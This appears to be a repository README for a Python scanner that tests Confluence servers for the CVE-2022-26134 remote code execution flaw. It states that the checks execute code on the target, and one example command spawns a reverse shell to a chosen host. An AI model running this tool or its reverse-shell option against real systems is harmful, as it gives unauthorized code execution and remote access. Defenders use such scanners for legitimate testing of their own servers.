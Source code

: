 ## Scan for ConfluenceRCE CVE-2022-26134
Just a quick tool with an oversized banner, to scan if a target is vulnerable to CVE-2022-26134.
* Tested on win/nix, python 2.7 - 3.X
* Dependencies: argparse, requests
* Checks are invasive- meaning RCE will be performed (but on a non-destructive way)
* Example usage-1: python confluenceRCE.py -t 127.0.0.1
* Example usage-2: python confluenceRCE.py -t 127.0.0.1:8090 (default port, if not running on 443)
* Example usage-3: python confluenceRCE.py -t 127.0.0.1 -p 8090 -c 15 (-c is timeout value in seconds)
* Example usage-4: python confluenceRCE.py -t 127.0.0.1 -s 192.168.0.1 (reverse shell, ports must be open, port choosen when spawning)
* Thats all.
